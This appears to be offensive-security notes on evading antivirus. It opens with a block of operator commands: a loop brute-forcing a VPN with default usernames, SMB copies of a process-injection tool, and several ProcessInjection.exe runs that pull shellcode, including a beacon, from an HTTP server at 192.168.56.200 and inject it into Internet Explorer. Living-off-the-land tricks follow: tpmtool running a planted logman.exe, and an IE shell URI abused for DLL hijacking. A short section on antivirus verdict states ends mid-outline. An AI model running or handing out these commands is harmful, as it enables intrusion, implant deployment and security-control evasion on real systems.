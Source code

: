 
---

### Vrac commands

```sh
for i in `cat /tmp/default_users_for_services_unhash.txt` ; do /opt/vpn_connect -u $i -p a -l /tmp/$i;done

copy \\192.168.56.200\tiki\processinjectionn.zip C:\Users\wee\
copy C:\Users\wee\processinjectionn\ProcessInjection\ProcessInjection\bin\Debug\ProcessInjection.exe \\192.168.56.200\tiki\

ProcessInjection.exe.packed.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:C:\program files\internet explorer\iexplore.exe /pid:7368 /t:4
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:C:\program files\internet explorer\iexplore.exe /pid:7368 /t:4
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/procinj /ppath:"C:\program files\internet explorer\iexplore.exe" /pid:4928 /t:3
ProcessInjection.exe /f:raw /url:http://192.168.56.200:9000/longhaul/longhaul_beacon/beacon64.bin.sgn /ppath:"C:\program files\internet explorer\iexplore.exe" /t:3

cd "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Tools\MSVC\14.28.29333\bin\Hostx64\x64>"
copy Bin\wraith_x64_encoded.bin \\192.168.56.200\tiki\

```

### LOLBIN

#### tpmtool
`tpmtool.exe drivertracing stop` it will run cmd.exe who call logman.exe in the current folder

#### IE

By navigating to URI: `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn `rstrui.exe` (System Restore). 
If you modify the `SystemRoot` environment variable and copy over DLLs you can run whatever you like.

---

## Theorical

Every file has a score that gets involved in triggering one of the three different states (which can change during the scanning process) :

- good (autorise)
- bad (block and alert)
- unknown (block, autorise, monitor, and/or scary prompt, depending on the AV)

### Static analysis
